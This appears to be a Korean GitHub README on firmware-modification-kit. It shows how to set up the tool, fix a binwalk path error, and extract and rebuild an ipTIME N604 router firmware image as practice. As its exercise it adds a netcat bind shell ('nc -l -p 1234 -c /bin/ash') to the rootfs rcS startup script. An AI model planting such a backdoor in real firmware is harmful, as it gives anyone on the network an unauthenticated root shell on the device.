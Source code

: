 ### fmk

firmware-modification-kit 추출 및 리빌드에 대한 내용입니다.

우분투 18.xx 에서 테스트 되었습니다.

$ sudo apt-get install build-essential zlib1g-dev liblzma-dev python-magic

$ wget https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/firmware-mod-kit/fmk_099.tar.gz

$ tar zxfv fmk_099.tar.gz

$ sudo apt-get install binwalk

$ vi shared-ng.inc

### binwalk 설정 에러

ERROR: No supported file system found! Aborting...

binwalk의 경로를 수정해 줘야 fmk의 추출, 리빌드 사용이 가능합니다.

BINWALK=$(which binwalk)

### 실습용 펌웨어 추출

$ wget http://download.iptime.co.kr/online_upgrade/n604_kr_9_66.bin

$ ./extract-firmware.sh n604_kr_9_66.bin

fmk 디렉터리가 하나 더 생성되며, rootfs 의 default 아래 rcS 를 수정해 본다.

nc -l -p 1234 -c /bin/ash

를 추가해 봅니다.

$ ./build-firmware.sh

new-firmware.bin 가 생성됩니다.
